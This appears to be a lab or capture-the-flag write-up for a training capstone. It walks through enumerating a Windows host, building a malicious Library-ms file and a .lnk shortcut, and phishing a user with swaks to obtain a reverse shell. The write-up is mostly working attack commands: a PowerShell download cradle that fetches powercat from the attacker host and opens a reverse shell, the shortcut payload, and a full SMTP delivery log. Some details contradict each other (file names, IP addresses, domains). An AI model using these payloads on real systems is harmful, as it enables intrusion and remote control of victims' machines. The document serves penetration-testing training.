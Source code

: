 Questions
Capstone Exercise: Enumerate the ADMIN (VM Group 2 - VM #4) machine and find a way to leverage Windows library and shortcut files to get code execution. Obtain a reverse shell and find the flag on the desktop for the Administrator user. You can use VM #3 of VM Group 2 to prepare your attack.

Hint
1) Scan the ports with nmap.
2) Start by fuzzing the webserver for some hidden files (pdf,txt) using gobuster or ffuf.
3) Download any files you have found directly with tools like wget for futre anaylsis such as the creator of the file.
4) Use the commands provided in Listing 11 to host any malicious file and send the email.
5) Make sure you mount the correct path where you have the Webdav folder! Is it root/webdav or /home/kali/webdav?
6) Do not limit yourself with only tool and search for other powershell reverse shells.

setup WebDAV on Kali
pip3 install wsgidav
mkdir /home/kali/webdav
touch /home/kali/webdav/test.txt
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav

xfreerdp into the VM#3
xfreerdp /u:'offsec' /p:'lab' /v:192.168.244.194:3389 /size:95% /cert:ignore +clipboard /drive:smbfolder,/home/kali/webdav

nmap scanning
nmap -sS 192.168.244.199
25/tcp  open  smtp
80/tcp  open  http
110/tcp open  pop3
135/tcp open  msrpc
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds
587/tcp open  submission

Fuzz web server
gobuster dir -u http://192.168.244.199/ -w /usr/share/wordlists/dirb/common.txt -x pdf
found info.txt

Wget http://192.168.244.199/info.pdf

Examine with Exiftool 
exiftool -a -u info.pdf

Inside the PDF mentioned
"ADMIN server hosts an e-mail server, All local addresses are <firstname>.<lastname>@supermagicorg.com"
"You can test it via test@supermagicorg.com with password test. All accounts of IT staff are already created and usable."

Means we can use <test@supermagic.org> to sent the email to <dave.wizard@supermagicorg.com>

Now we need to prepare the payload
#kali command prompt
LHOST=192.168.45.185
LPORT=8443
pwsh -c "iex (New-Object System.Net.WebClient).DownloadString('http://$LHOST:88/powercat.ps1');powercat -c $LHOST -p $LPORT -e cmd.exe -ge" > revshell-pwsh.txt

Make sure the code are hashed and listen to payload remote port
head revshell-pwsh.txt 
nc -lvnp 8443

Create a shortcut file "automatic_configuration.lnk" and paste below code to shortcut
powershell -c ""$code=(New-Object System.Net.Webclient).DownloadString('http://192.168.45.185:88/revshell-pwsh.txt'); iex 'powershell -E $code'""

Create a Microsoft Library file "config.Library-ms"

Copy "config.Library-ms" and "automatic_configuration.lnk" file to the webdav folder
cd /home/kali/webdav

Now payload had prepared, now we can send the Payload through email using swaks.
swaks -t dave.wizard@supermagicorg.com -s 192.168.196.199:587 -au test@supermagicorg.com -ap test -f test@supermagicorg.com --body email.txt --attach @config.Library-ms --header "Subject: Configurations"
=== Trying 192.168.244.199:587...
=== Connected to 192.168.244.199.
<-  220 ADMIN ESMTP
 -> EHLO kali
<-  250-ADMIN
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> AUTH LOGIN
<-  334 VXNlcm5hbWU6
 -> dGVzdEBzdXBlcm1hZ2ljb3JnLmNvbQ==
<-  334 UGFzc3dvcmQ6
 -> dGVzdA==
<-  235 authenticated.
 -> MAIL FROM:<test@supermagicorg.com>
<-  250 OK
 -> RCPT TO:<dave.wizard@supermagicorg.com>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Date: Fri, 12 Apr 2024 00:25:52 -0700
 -> To: dave.wizard@supermagicorg.com
 -> From: test@supermagicorg.com
 -> Subject: Configurations
 -> Message-Id: <20240412002552.141775@kali>
 -> X-Mailer: swaks v20240103.0 jetmore.org/john/code/swaks/
 -> MIME-Version: 1.0
 -> Content-Type: multipart/mixed; boundary="----=_MIME_BOUNDARY_000_141775"
 -> 
 -> ------=_MIME_BOUNDARY_000_141775
 -> Content-Type: text/plain
 -> 
 -> email.txt
 -> ------=_MIME_BOUNDARY_000_141775
 -> Content-Type: application/octet-stream; name="config.Library-ms"
 -> Content-Description: config.Library-ms
 -> Content-Disposition: attachment; filename="config.Library-ms"
 -> Content-Transfer-Encoding: BASE64
 -> 
 -> PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iVVRGLTgiPz4KPGxpYnJhcnlEZXNjcmlwdGlv
 -> biB4bWxucz0iaHR0cDovL3NjaGVtYXMubWljcm9zb2Z0LmNvbS93aW5kb3dzLzIwMDkvbGlicmFy
 -> eSI+CjxuYW1lPkB3aW5kb3dzLnN0b3JhZ2UuZGxsLC0zNDU4MjwvbmFtZT4KPHZlcnNpb24+Njwv
 -> dmVyc2lvbj4KPGlzTGlicmFyeVBpbm5lZD50cnVlPC9pc0xpYnJhcnlQaW5uZWQ+CjxpY29uUmVm
 -> ZXJlbmNlPmltYWdlcmVzLmRsbCwtMTAwMzwvaWNvblJlZmVyZW5jZT4KPHRlbXBsYXRlSW5mbz4K
 -> PGZvbGRlclR5cGU+ezdkNDlkNzI2LTNjMjEtNGYwNS05OWFhLWZkYzJjOTQ3NDY1Nn08L2ZvbGRl
 -> clR5cGU+CjwvdGVtcGxhdGVJbmZvPgo8c2VhcmNoQ29ubmVjdG9yRGVzY3JpcHRpb25MaXN0Pgo8
 -> c2VhcmNoQ29ubmVjdG9yRGVzY3JpcHRpb24+Cjxpc0RlZmF1bHRTYXZlTG9jYXRpb24+dHJ1ZTwv
 -> aXNEZWZhdWx0U2F2ZUxvY2F0aW9uPgo8aXNTdXBwb3J0ZWQ+ZmFsc2U8L2lzU3VwcG9ydGVkPgo8
 -> c2ltcGxlTG9jYXRpb24+Cjx1cmw+aHR0cDovLzE5Mi4xNjguNDUuMTg1PC91cmw+Cjwvc2ltcGxl
 -> TG9jYXRpb24+Cjwvc2VhcmNoQ29ubmVjdG9yRGVzY3JpcHRpb24+Cjwvc2VhcmNoQ29ubmVjdG9y
 -> RGVzY3JpcHRpb25MaXN0Pgo8L2xpYnJhcnlEZXNjcmlwdGlvbj4=
 -> 
 -> ------=_MIME_BOUNDARY_000_141775--
 -> 
 -> 
 -> .
<-  250 Queued (1.016 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.

Then get the flag from Administrator user's desktop
